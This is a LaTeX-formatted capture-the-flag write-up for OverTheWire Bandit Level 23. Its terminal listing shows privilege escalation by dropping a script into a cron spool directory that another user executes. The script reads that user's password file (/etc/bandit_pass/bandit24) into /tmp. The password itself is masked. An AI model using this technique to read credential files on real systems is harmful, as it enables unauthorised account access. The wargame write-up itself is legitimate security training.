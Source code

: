 \documentclass[11pt]{article}
\makeatletter
\renewcommand{\paragraph}{%
  \@startsection{paragraph}{4}%
  {\z@}{2.0ex \@plus 1ex \@minus .2ex}{-1em}%
  {\normalfont\normalsize\bfseries}%
}
\makeatother
\begin{document}
\subsection{Level 23}
\paragraph{Goal}
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in \textbf{/etc/cron.d/} for the configuration and see what command is being executed.\\
\textbf{Note:} Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.
\paragraph{Solution}
As with our previous cron levels, we cd to the cronjob directory and list the cronjobs. Again, there's a juicy cronjob\_bandit24 to have a look at. Catting this file reveals that the cronjob is running a script which executes and then deletes all scripts in /var/spool/bandit24/. As we know they will be executed by bandit24 or a higher user, we can copy a script in there that will output the contents of his password file to the /tmp/ folder for us to collect. Remember that crons are a time based service, so you might need to wait a minute or so for it to be executed.
\begin{lstlisting}
	bandit23@melinda:/etc/cron.d$ l
	behemoth4_cleanup  cronjob_bandit23       leviathan5_cleanup    natas-session-toucher  natas25_cleanup~  php5        semtex0-ppc  vortex0
	cron-apt           cronjob_bandit24       manpage3_resetpw_job  natas-stats            natas26_cleanup   semtex0-32  semtex5      vortex20
	cronjob_bandit22   cronjob_bandit24_root  melinda-stats         natas25_cleanup        natas27_cleanup   semtex0-64  sysstat
	bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
	* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
	bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
	#!/bin/bash

	myname=$(whoami)

	cd /var/spool/$myname
	echo "Executing and deleting all scripts in /var/spool/$myname:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
	    then
		echo "Handling $i"
		timeout -s 9 60 "./$i"
		rm -f "./$i"
	    fi
	done
	bandit23@melinda:/etc/cron.d$ vim /tmp/roomservice.sh
	bandit23@melinda:/etc/cron.d$ cat /tmp/roomservice.sh
	#!/bin/bash

	cat /etc/bandit_pass/bandit24 > /tmp/GiffPassword
	bandit23@melinda:/etc/cron.d$ chmod 755 /tmp/roomservice.sh
	bandit23@melinda:/etc/cron.d$ copy /tmp/roomservice.sh /var/spool/bandit24/
	cat /tmp/GiffPassword
	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
\end{lstlisting}
\end{document}
